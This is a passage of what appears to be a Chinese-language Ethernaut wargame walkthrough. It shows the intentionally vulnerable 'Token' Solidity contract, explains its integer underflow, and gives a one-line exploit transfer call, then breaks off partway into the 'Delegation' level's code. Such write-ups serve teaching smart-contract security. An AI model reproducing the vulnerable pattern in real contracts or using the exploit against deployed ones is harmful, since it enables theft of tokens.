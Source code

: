 6.   **Token**

     ```solidity
     pragma solidity ^0.6.0;
     
     contract Token {
     
       mapping(address => uint) balances;
       uint public totalSupply;
     
       constructor(uint _initialSupply) public {
         balances[msg.sender] = totalSupply = _initialSupply;
       }
     
       function transfer(address _to, uint _value) public returns (bool) {
         require(balances[msg.sender] - _value >= 0);
         balances[msg.sender] -= _value;
         balances[_to] += _value;
         return true;
       }
     
       function balanceOf(address _owner) public view returns (uint balance) {
         return balances[_owner];
       }
     }
     
     
     ```

     *   整数下溢 

         uint 是无符号整数，-1产生下溢会变为 2^256^-1

         ```
         contract.transfer(contarct.address,21);
         ```

7.   **Delegation**

     ```solidity
     pragma solidity ^0.8.0;
     
     contract Delegate {
     
       address public owner;
     
       constructor(address _owner) {
         owner = _owner;
       }
     
       function pwn() public {
         owner = msg.sender;
       }
     }
     
     contract Delegation {
     
       address public owner;
       Delegate delegate;
     